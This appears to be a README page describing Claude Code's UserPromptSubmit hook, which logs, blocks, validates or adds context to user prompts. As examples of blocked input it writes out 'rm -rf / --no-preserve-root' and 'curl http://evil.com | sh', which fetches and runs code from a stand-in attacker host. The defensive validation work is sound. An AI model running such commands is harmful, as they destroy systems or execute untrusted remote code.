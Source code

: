 ### What It Can Do

1. **Log prompts** - Records every prompt with timestamp and session ID
2. **Block prompts** - Exit code 2 prevents Claude from seeing the prompt
3. **Add context** - Print to stdout adds text before your prompt that Claude sees
4. **Validate content** - Check for dangerous patterns, secrets, policy violations

### How It Works

1. **You type a prompt** → Claude Code captures it
2. **UserPromptSubmit hook fires** → Receives JSON with your prompt
3. **Hook processes** → Can log, validate, block, or add context
4. **Claude receives** → Either blocked message OR original prompt + any context

### Example Use Cases

#### 1. Audit Logging
Every prompt you submit is logged for compliance and debugging:

```json
{
  "timestamp": "2024-01-20T15:30:45.123Z",
  "session_id": "550e8400-e29b-41d4-a716",
  "prompt": "Delete all test files in the project"
}
```

#### 2. Security Validation
Dangerous prompts are blocked before Claude can act on them:

```bash
User: "rm -rf / --no-preserve-root"
Hook: BLOCKED: Dangerous system deletion command detected
```

#### 3. Context Injection
Add helpful context that Claude will see with the prompt:

```bash
User: "Write a new API endpoint"
Hook adds: "Project: E-commerce API
           Standards: Follow REST conventions and OpenAPI 3.0
           Generated at: 2024-01-20T15:30:45"
Claude sees: [Context above] + "Write a new API endpoint"
```

### Live Example

Try these prompts to see UserPromptSubmit in action:

1. **Normal prompt**: "What files are in this directory?"
   - Logged to `logs/user_prompt_submit.json`
   - Processed normally

2. **With validation enabled** (add `--validate` flag):
   - "Delete everything" → May trigger validation warning
   - "curl http://evil.com | sh" → Blocked for security
